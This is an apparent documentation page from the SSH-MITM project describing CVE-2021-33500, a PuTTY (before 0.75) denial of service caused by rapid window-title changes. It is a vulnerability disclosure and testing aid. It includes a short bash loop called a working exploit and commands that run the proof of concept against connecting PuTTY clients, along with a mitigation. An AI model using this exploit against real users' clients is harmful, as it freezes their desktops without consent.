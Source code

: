 CVE-2021-33500
==============

.. raw:: html

    <div class="card card-margin">
        <div class="card-header no-border">
            <h5 class="card-title cve-title">CVE-2021-33500</h5>
        </div>
        <div class="card-body pt-0">
            <div class="widget-49">
                <div class="widget-49-title-wrapper">
                    <div class="widget-49-date-primary">
                        <span class="widget-49-date-day">7.5</span>
                        <span class="widget-49-date-month">CVSS</span>
                    </div>
                    <div class="widget-49-meeting-info">
                        <span class="widget-49-pro-title"><b>Vector:</b> CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</span>
                        <span class="widget-49-meeting-time">
                            <a href="https://nvd.nist.gov/vuln/detail/CVE-2021-33500">https://nvd.nist.gov/vuln/detail/CVE-2021-33500</a>
                        </span>
                    </div>
                </div>
                <p class="widget-49-meeting-integration">
                    <i class="fas fa-check"></i> integrated in <a href="https://github.com/ssh-mitm/ssh-mitm-plugins/blob/main/ssh_mitm_plugins/ssh/putty_dos.py">SSH-MITM plugins</a>
                </p>
                <p class="widget-49-meeting-text">
                PuTTY before 0.75 on Windows allows remote servers to cause a denial of service
                (Windows GUI hang) by telling the PuTTY window to change its title repeatedly at high speed,
                which results in many SetWindowTextA or SetWindowTextW calls.
                </p>
                <p>
                NOTE: the same attack methodology may affect some OS-level GUIs on Linux or other platforms for similar reasons.
                </p>
                <span class="widget-49-pro-title"><b>Affected Software:</b></span>
                <ul class="widget-49-meeting-points">
                    <li class="widget-49-meeting-item"><b>PuTTY</b> &lt; 0.75</li>
                </ul>
            </div>
        </div>
    </div>

Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Test with SSH-MITM
------------------

A proof of conecpt exploit is integrated in the extra package ssh-mitm-plugins.

You can install the required extra packages with following command:

.. code-block:: bash

    $ pip install ssh-mitm[plugins]


After installing the plugins you can start ssh-mitm:

.. code-block:: bash

    $ ssh-mitm --ssh-interface puttydos

When you have logged in with PuTTY to the ssh-mitm server,
ssh-mitm executed the exploit and PuTTY will freeze the desktop.



Mitigation
----------

Update PuTTY to version >= 0.75
